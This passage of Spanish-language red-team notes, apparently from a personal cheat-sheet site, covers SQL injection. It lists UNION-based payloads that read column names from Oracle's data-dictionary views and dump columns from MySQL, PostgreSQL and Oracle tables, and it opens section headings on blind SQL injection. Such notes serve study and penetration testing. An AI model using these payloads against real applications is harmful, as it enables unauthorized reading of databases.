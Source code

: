 EN TODOS LOS CASOS SE PUEDE SACAR MAS INFORMACION DE LA TABLA

```sql
SELECT COLUMN_NAME, DATA_TYPE, DATA_LENGTH, NULLABLE FROM USER_TAB_COLUMNS
```

```python
code' UNION SELECT COLUMN_NAME FROM USER_TAB_COLUMNS WHERE TABLE_NAME='*nombre-tabla*' -- -

code' UNION SELECT COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='*nombre-tabla*' -- -
#COMO ADMINISTRADOR
code' UNION SELECT COLUMN_NAME FROM DBA_TAB_COLUMNS WHERE TABLE_NAME='*nombre-tabla*' -- -

```

![imagen error](/images/red_team/web/20241030225403.png)

## OBTENER COLUMNAS DE LA BASE DE DATOS 2

### MYSQL-PostgreSQL 5

```SQL
code' UNION SELECT COLUMNA1,COLUMNA2 FROM *table-name*  -- -
```

![imagen error](/images/red_team/web/20241030190322.png)

### ORACLE 4

```SQL
code' UNION SELECT COLUMNA1,COLUMNA2 FROM *table-name*  -- -
```

![imagen error](/images/red_team/web/20241030230113.png)

## BLIND SQLI(sql injection blind)

[SQL INJECION - SQLI CHEAT SHEET LUND133369](https://lund133369.github.io/SQLI-sql-injection-cheet-sheet)

### CONDITIONAL REPONSE

condicion de respuesta
la respuesta se puede filtrar por varios tipos como :

- r.status_code  ,  r.headers  ,  r.cookies  ,  r.text  ,  r.json()  ,  r.url
![imagen error](/images/red_team/web/20241106152731.png)

### CONDITIONAL ERRORS

condicion de error

![imagen error](/images/red_team/web/20241113174541.png)
